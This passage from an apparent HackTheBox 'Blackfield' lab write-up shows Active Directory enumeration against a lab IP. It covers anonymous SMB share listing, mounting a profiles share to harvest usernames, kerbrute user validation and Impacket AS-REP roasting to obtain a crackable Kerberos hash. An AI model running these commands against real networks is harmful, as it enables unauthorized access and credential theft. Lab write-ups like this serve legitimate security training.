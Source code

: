 Let’ try the smb share next:

```bash
smbclient -N -L //10.129.252.166

result:
Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        forensic        Disk      Forensic / Audit share.
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        profiles$       Disk      
        SYSVOL          Disk      Logon server share
```

The profiles$ share holds user information, let’s enumerate that and get a list of usernames that we can kerbrute with. Let’s first try and mount the directory on our host for easier and quicker enumeration

```bash
sudo mount -t cifs '//10.129.252.166/profiles$' /mnt

#navigate to the /mnt dir to view the users. Now let's see if there are any files in the directories and at the same time make a users list; in the /mnt dir:

find .  #list and try and find any files within the users' dir
ls > ~/htb_lab/blackfield/users.txt
```

Now back in our attacking dir, let’s start kerbrute

```bash
../tools/kerbrute userenum --dc 10.129.252.166 -d blackfield users.txt -o kerbrute_users.out

result:
2024/11/29 16:53:22 >  [+] VALID USERNAME:       svc_backup@blackfield                                                                                    
2024/11/29 16:53:22 >  [+] VALID USERNAME:       audit2020@blackfield                                                                                     
2024/11/29 16:53:22 >  [+] VALID USERNAME:       support@blackfield
```

Now make a users list with just the username without the @blackfield
With a list of valid users, we can use [GetNPUsers.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetNPUsers.py) from the Impacket toolkit to hunt for all users with Kerberos pre-authentication not required.

```bash
/usr/share/doc/python3-impacket/examples/GetNPUsers.py blackfield/ -dc-ip 10.129.252.166 -no-pass -usersfile users.lst

#And we get a result for a TGT ticket hash that we can attempt to crack with hashcat for user support. Save the hash to a file.
```
